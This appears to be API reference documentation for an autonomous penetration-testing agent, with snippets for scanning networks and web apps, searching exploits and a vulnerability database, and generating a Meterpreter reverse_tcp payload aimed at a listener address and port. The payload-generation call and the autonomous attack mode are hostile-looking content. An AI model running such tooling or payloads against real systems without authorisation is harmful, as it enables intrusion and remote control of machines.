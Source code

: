 # API Reference

## Core Components

### 1. Main Agent
```python
from agent.main_agent import AutonomousAgent

# Initialize agent
agent = AutonomousAgent(target="example.com")

# Run operations
agent.run_autonomous_operation()
agent.run_manual_mode()
```

### 2. Exploitation Module
```python
from modules.exploitation import ExploitationModule

# Initialize module
exploit = ExploitationModule()

# Search exploits
exploits = exploit.search_exploits("apache")

# Generate payload
payload = exploit.generate_payload(
    payload_type="windows/meterpreter/reverse_tcp",
    lhost="192.168.1.100",
    lport=4444
)
```

### 3. Scanning Modules
```python
from modules.scanning import NetworkScanner, WebScanner

# Network scanning
scanner = NetworkScanner()
results = scanner.scan_network("192.168.1.0/24")

# Web scanning
web_scanner = WebScanner()
web_results = web_scanner.scan_web_app("http://example.com")
```

### 4. Vulnerability Database
```python
from modules.vulnerability_database import VulnerabilityDatabase

# Initialize database
db = VulnerabilityDatabase()

# Search vulnerabilities
vulns = db.search_vulnerabilities("sql injection")

# Get specific vulnerability
details = db.get_vulnerability("web", "sql_injection")
```
